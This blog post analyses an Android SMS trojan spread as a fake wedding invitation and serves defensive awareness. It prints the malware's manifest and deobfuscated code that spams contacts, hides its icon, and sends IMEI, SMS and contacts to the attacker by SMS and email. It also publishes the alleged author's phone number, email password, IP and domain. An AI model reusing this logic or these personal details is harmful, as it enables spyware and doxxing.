






前言：今天一位朋友突然发朋友圈说自己的手机中毒了，群发短信给所有的通讯录朋友，处于好奇，就问朋友发的什么，从事android编程将近三年了，从来没有写过一个有损用户利益的程序，也没有见过真正意义上的android病毒。既然有这个机会，那就好好看看这个病毒究竟厉害在什么地方了。在这里斗胆和大家探讨下，懂编程的朋友顺便探讨学习下。不懂的朋友就了解下病毒特征，防止下次遇到同样的问题。
很快，朋友给我发送了当时中毒时的短信截图。

PS：这是我迄今为止见过“最高大上”的请柬了。想必新郎一定是个程序猿吧，23333～
很明显，就是一个apk，只要你点击这个链接，这个apk就会很快下载到你手机里，下载完成一般就会提示是否安装，如果点击安装，恭喜，你中计了。接下来，就是它发作的时候来了。
确定病毒的作者
先来看看下载地址的IP，竟然没有用域名！差评！这也是够低成本犯罪啊。。。那我们先来看看45.127.97.231这个ip，看看能不能挖掘到点什么重要信息。
ip的位置信息：

果然是境外犯罪，增加了追查难度。在香港租个主机。
用http://reverseip.domaintools.com/search/?q=45.127.97.231 反查下绑定的域名

果然有域名，而且只有一个，基本可以判断这个服务器不是租的，那再来查查域名绑定的信息。

详情可以点击下面的链接：
https://whois.aliyun.com/whois/domain/bugydq.science?spm=5176.8076989.339865.11.maXkw8&file=bugydq.science
那QQ已经有了，电话也有了（18750074991）。以后肯定会用到的。哈哈。
APK分析
那我们再来再看看这个apk吧。

安装包的小的惊人啊，只有200k左右，现在的网速就是点完就下完的节奏，根本不给你后悔的机会。
程序清单文件
做android应用开发的朋友都知道，程序所有的组件，权限都需要在manifest文件中生命，那我们看看这个可怕的清单文件中都申请了什么。
<?xml version="1.0" encoding="utf-8"?>
<manifest
xmlns:android="http://schemas.android.com/apk/res/android"
android:versionCode="98"
android:versionName="5.5.365"
package="com.iekjdx">
<uses-sdk
android:minSdkVersion="8"
android:targetSdkVersion="19" />
<uses-permission android:name="android.permission.RECEIVE_WAP_PUSH" />
<uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED" />
<uses-permission android:name="android.permission.MODIFY_AUDIO_SETTINGS" />
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
<uses-permission android:name="android.permission.RECEIVE_USER_PRESENT" />
<uses-permission android:name="android.permission.READ_CONTACTS" />
<uses-permission android:name="android.permission.INTERNET" />
<uses-permission android:name="android.permission.READ_PHONE_STATE" />
<uses-permission android:name="android.permission.READ_SMS" />
<uses-permission android:name="android.permission.WRITE_SETTINGS" />
<uses-permission android:name="android.permission.VIBRATE" />
<uses-permission android:name="android.permission.RECEIVE_SMS" />
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
<uses-permission android:name="android.permission.GET_TASKS" />
<uses-permission android:name="android.permission.WRITE_SMS" />
<uses-permission android:name="android.permission.SEND_SMS" />
<uses-permission android:name="android.permission.ACCESS_WIFI_STATE" />
<application
android:theme="@ref/0x0103000a"
android:label="@ref/0x7f060000"
android:icon="@ref/0x7f020000"
android:name="com.phone.stop.db.PhoneApplication"
android:allowBackup="true">
<activity
android:theme="@ref/0x7f070002"
android:label="@ref/0x7f060000"
android:name="com.phone2.stop.activity.MainActivity"
android:excludeFromRecents="false">
<intent-filter>
<action android:name="android.intent.action.MAIN" />
<category android:name="android.intent.category.LAUNCHER" />
</intent-filter>
</activity>
<activity
android:label="@ref/0x7f060000"
android:name="com.phone2.stop.activity.DeleteActivity"
android:excludeFromRecents="false">
<intent-filter>
<action android:name="android.intent.action.DELETE" />
<category android:name="android.intent.category.DEFAULT" />
<data android:scheme="package" />
</intent-filter>
</activity>
<service
android:name="com.phone.stop6.service.SecondService"
android:process=":thee_second2_service3" />
<service
android:name="com.phone.stop6.service.BootService"
android:enabled="true"
android:exported="true" />
<service
android:name="com.phone.stop6.service.SmsService"
android:process=":thee_second2_service3" />
<receiver
android:name="com.phone.stop.receiver.BootReceiver">
<intent-filter
android:priority="2147483647">
<action android:name="android.intent.action.PACKAGE_RESTARTED" />
<action android:name="android.net.conn.CONNECTIVITY_CHANGE" />
<action android:name="android.intent.action.PACKAGE_ADDED" />
<action android:name="android.intent.action.PACKAGE_REPLACED" />
<action android:name="android.intent.action.PACKAGE_INSTALL" />
<action android:name="android.intent.action.ACTION_PACKAGE_CHANGED" />
<action android:name="android.intent.action.SIG_STR" />
<action android:name="android.intent.action.ACTION_POWER_CONNECTED" />
<action android:name="android.intent.action.ACTION_POWER_DISCONNECTED" />
<action android:name="android.intent.action.BATTERY_CHANGED" />
<action android:name="android.intent.action.PHONE_STATE" />
<action android:name="android.intent.action.BATTERY_LOW" />
<action android:name="android.intent.action.BATTERY_OKAY" />
<action android:name="android.intent.action.BOOT_COMPLETED" />
</intent-filter>
</receiver>
<receiver
android:name="com.phone.stop.receiver.SMSReceiver"
android:permission="android.permission.BROADCAST_SMS">
<intent-filter
android:priority="2147483647">
<action android:name="android.provider.Telephony.SMS_RECEIVED" />
</intent-filter>
</receiver>
<receiver
android:name="com.phone.stop.receiver.MyDeviceAdminReceiver"
android:permission="android.permission.BIND_DEVICE_ADMIN">
<meta-data
android:name="android.app.device_admin"
android:resource="@ref/0x7f040000" />
<intent-filter>
<action android:name="android.app.action.DEVICE_ADMIN_ENABLED" />
</intent-filter>
</receiver>
</application>
</manifest>
看完这个清单文件吓出宝宝一身冷汗，一个请柬你至于把google全家的权限都拿到么？至于开三个服务，三个广播接收器么？要这么多权限准没好事。看看都申请了什么权限：
- android.permission.RECEIVE_WAP_PUSH —— 允许应用程序接收和处理 WAP 信息，可借此监视您的信息,或者将信息删除而不向您显示。这就是大摇大摆的拦截短信啊。
- android.permission.RECEIVE_BOOT_COMPLETED —— 接收开机启动
- android.permission.MODIFY_AUDIO_SETTINGS —— 修改声音设置，这是想静音偷偷干坏事么。
- android.permission.WRITE_EXTERNAL_STORAGE —— 写外置sd卡权限
- android.permission.RECEIVE_USER_PRESENT —— 允许接收android.intent.action.USER_PRESENT广播，该广播事件是用户唤醒屏幕时发送的。
- android.permission.READ_CONTACTS —— 查看联系人权限
- android.permission.INTERNET —— 网络权限
- android.permission.READ_PHONE_STATE —— 获取手机基本数据权限，主要是获取用户手机的IMEI。
- android.permission.READ_SMS —— 读取短信息权限
- android.permission.WRITE_SETTINGS —— 修改系统设置信息权限。
- android.permission.VIBRATE —— 手机振动权限。
- android.permission.RECEIVE_SMS —— 允许程序监控收到短信的状态
- android.permission.ACCESS_NETWORK_STATE —— 允许程序获取网络状态
- android.permission.GET_TASKS —— 允许程序获取信息有关当前或最近运行的任务,一个缩略的任务状态,是否活动等等
- android.permission.WRITE_SMS —— 写短信
- android.permission.SEND_SMS —— 发短信
- android.permission.ACCESS_WIFI_STATE —— 允许程序获取当前的WiFi连接状态
一旦用户赋予了程序这些权限，基本上就等于你的手机任人宰割了。因此，大家在平时，记得不要将不常用的权限以及敏感数据的权限授权给不信任的程序。
不但申请了权限，木马病毒还声明了三个服务和三个广播接收器：
服务：
- com.phone.stop6.service.SecondService —— 程序守护进程服务
<service android:name="com.phone.stop6.service.SecondService" android:process=":thee_second2_service3" /> - com.phone.stop6.service.BootService —— 程序启动服务
<service android:name="com.phone.stop6.service.BootService" android:enabled="true" android:exported="true" /> - com.phone.stop6.service.SmsServic —— 短信收发服务，在单独的进程中运行。
<service android:name="com.phone.stop6.service.SmsService" android:process=":thee_second2_service3" />
广播接收器：
- com.phone.stop.receiver.BootReceiver
为了能够大概率的启动病毒，使出了浑身解数，监听了这么多广播事件：- android.intent.action.PACKAGE_RESTARTED —— 监听程序被kill的事件
- android.net.conn.CONNECTIVITY_CHANGE —— 监听网络变化
- android.intent.action.PACKAGE_ADDED —— 监听安装程序
- android.intent.action.PACKAGE_REPLACED —— 监听程序更新
- android.intent.action.PACKAGE_INSTALL —— 监听程序安装
- android.intent.action.ACTION_PACKAGE_CHANGED —— 安装包发生改变
- android.intent.action.SIG_STR —— 手机信号强度变化
- android.intent.action.ACTION_POWER_CONNECTED —— 连接电源
- android.intent.action.ACTION_POWER_DISCONNECTED —— 拔出电源
- android.intent.action.BATTERY_CHANGED —— 电池电量发生变化
- android.intent.action.PHONE_STATE —— 手机状态发生变化
- android.intent.action.BATTERY_LOW —— 低电量提示
- android.intent.action.BATTERY_OKAY —— 充电完成提示
- android.intent.action.BOOT_COMPLETED —— 启动完成
- com.phone.stop.receiver.SMSReceiver
该广播接收器接收收到短信时的系统广播。 - com.phone.stop.receiver.MyDeviceAdminReceiver
该广播接收器主要处理root成功后收到的DEVICE_ADMIN_ENABLED广播。
那接下来就看看这个程序是如何作恶的，代码上又是如何实现的。
反编译java代码
apk文件中包含了程序运行的二进制文件和主要的资源文件。我们需要将二进制文件反编译成程序代码，才能够看到其具体的实现逻辑。由于该程序的代码进行了代码混淆，我们又没有途径拿到作者混淆时产生的map文件，因此给后续的分析带来了一些麻烦。
dex的反编译相比还是比较简单的。反编译工具也有很多，我当然选择了开源的dex2jar（see on github）和JD-GUI(see on github)了。
用法也是相对简单：
- ./dex2jar/dex2jar.sh 2.apk，生成 2_dex2jar.jar
- ./jd-gui/jd-gui，弹出图形界面，选择 File-Open File… ，打开 2_dex2jar.jar
我们就看到了代码的结构。

由于代码混淆给分析带来了不少的麻烦，不过没关系。代码量少，我们硬着头皮看也能看懂。
那接下来就看看这个病毒的代码实现吧。
病毒代码分析
一、 基本信息
病毒名称：2.apk
病毒类型：木马
样本MD5：
样本长度：212937 字节
发现时间：206.12.26
感染系统：Android Froyo 2.2.x及以上
二、 概述
三、 样本特征
敏感权限
获取短信息，获取联系人，发送短信，发送邮件入口点和恶意模块
我们从程序的入口类MainActivity.java的onCreate()函数开始分析：注：以下代码非程序原始代码，是根据混淆之后的代码人工去混淆后的代码，可能和源码有一定差异，但是程序功能没有发生改变，
com/phone2/stop/activity/MainActivity.java：
protected void onCreate(Bundle paramBundle) {
super.onCreate(paramBundle);
// 1.从数据库读取联系人并发送内容为“***：酒筵,恭请阁下光临，邀请函： 103.226.126.27/15/2.apk”的短信
readContacts();
setContentView(R.layout.activity_main);
// 2. 隐藏应用程序图标。如果设置一个app的mainActivity为COMPONENT_ENABLED_STATE_DISABLED状态,则不会再launcher的程序图标中发现该app
getPackageManager().setComponentEnabledSetting(getComponentName(), PackageManager.COMPONENT_ENABLED_STATE_DISABLED, PackageManager.DONT_KILL_APP);
// 设置加密用的字符串
SharedPreferencesManagerUtil.setStaker();
SharedPreferencesManagerUtil.initPhoneNumber(this);
SharedPreferencesManagerUtil.setSendEmailAccount(this);
SharedPreferencesManagerUtil.setReciveEmailAccount(this);
SharedPreferencesManagerUtil.setSendEmailPwd(this);
SharedPreferencesManagerUtil.initEndTime(this);
if (!SharedPreferencesManager.getInstance(this).getHasSendPhoneInfo()) {
//3. 获取手机IMEI信息、手机型号、手机品牌、系统版本等信息，并将这些消息裁剪成70个字符后，替换掉敏感字符，发送给13097169061
String str = ((TelephonyManager)getSystemService(Context.TELEPHONY_SERVICE)).getDeviceId();
SendTextMessageHelper.requestSendTextMessage("" + str + "\n" + phoneInfoHelper.getPhoneInfo(), this);
SharedPreferencesManager.getInstance(this).setHasSendPhoneInfo(true);
}
// 4. 删除已经发送的消息记录
OtherHelper.deleteMessage(this);
// 5. 重头戏来了, 将所有的短信和联系人已邮件的形式发送到13097169061@wo.cn的邮箱
if (SharedPreferencesManager.getInstance(this).getEmailMessageContactsSwitch()) {
MessageSender.start(this);
}
// 6.获取超级管理员权限，并启动服务
getSuperPermission();
}
我们再来看看启动了服务后又干了些什么，服务无非就是让系统能够常驻内存，监听新的短信和设备状态变化，以随时发送和接收相关的信息。
关于程序其他方面的分析，如架构啊、流程等方面的分析个人觉得没有什么分析的价值，从技术角度来说，这个程序写的很烂，当然，在当时的技术水平条件下也应该是比较可以的了。目前的6.0以上的系统上，由于系统权限的严格控制，想要做这些事情已经很难了。
整个木马在数据的上传方面还是比较落后的，目前看来没有用到网络上传的方式，而是采用了邮箱和短信的方式，这样个木马病毒的追踪带来了一些方便。
程序中使用到了javamail_forAndroid 用于发送邮件，这个开源库的使用还是值得我们学习的。
吐槽：
看到下面这样的代码，我只想骂回去！由此可见作者的素质…
public void setNiMa(String paramString) {
SharedPreferences.Editor localEditor = this.preferences.edit();
localEditor.putString("cao_ni_ma_pojie_wo_de_mazi", paramString);
localEditor.commit();
}
public String getNiMa() {
return this.preferences.getString("cao_ni_ma_pojie_wo_de_mazi", "000000");
}
public void setNi2Ma(String paramString) {
SharedPreferences.Editor localEditor = this.preferences.edit();
localEditor.putString("cao_ni_ma_pojie_wo_de_mazi2", paramString);
localEditor.commit();
}
public String getNi2Ma() {
return this.preferences.getString("cao_ni_ma_pojie_wo_de_mazi2", "000000");
}
木马作者邮箱号：1309716**@wo.cn
木马作者邮箱密码：qq123123
木马散播主机：45.127.97.231
相关域名：bugydq.science
```
四、 行为分析
- 从数据库读取联系人并发送内容为“*：酒筵,恭请阁下光临，邀请函： 103.226.126.27/15/2.apk”的短信
- 隐藏应用程序图标。如果设置一个app的mainActivity为COMPONENT_ENABLED_STATE_DISABLED状态,则不会再launcher的程序图标中发现该app
- 获取手机IMEI信息、手机型号、手机品牌、系统版本等信息，并将这些消息裁剪成70个字符后，替换掉敏感字符，发送给13097169061
- 删除已经发送的消息记录
- 重头戏来了, 将所有的短信和联系人已邮件的形式发送到13097169061@wo.cn的邮箱
- 获取超级管理员权限，并启动服务，监听系统状态和短信，彩信及网络状态
- 如果后续收到验证码也会及时发送给木马作者，多么恐怖的一件事。
特别声明：
为了保障本案例中的木马病毒的源码不被某些人二次开发利用，本人不会公开相关的代码。至于代码作者的相关信息，是通过合法的渠道获取，仅供学习交流之用。切勿用于人身攻击或者打击报复。如有侵权，请联系我，我会及时删除。
关于Android 安全多说点
从这篇文章希望大家能够对自己的个人信息引起重视，千万不要点击下载来路不明的apk应用程序。对于权限的授权也要三思而后行。然而，Android网络安全面临的不仅仅就是这些，也远比文中提到的这个过时的木马病毒严重的多。即便是一个正常的程序，也会被通过各种手段成为病毒的傀儡。
要解决这些问题，一是要考我们开发者的良知和安全意识，二是靠政府强有力的摧毁这个链条背后的黑产，不惜一切的保证公民能够享受安全可信的网络环境。同时，也需要我们每个人提高自己的安全意识，不要将密码记录到手机的任何地方，密码不要设置任何和你相关的字符或者数字，可以告诉大家一个好的方式，将你认为好记的字母或者数字进行hash运算，将结果作为密码进行设置，以后即便忘了密码，也可以重新计算得到。或者像我一样，使用数学公式作为密码。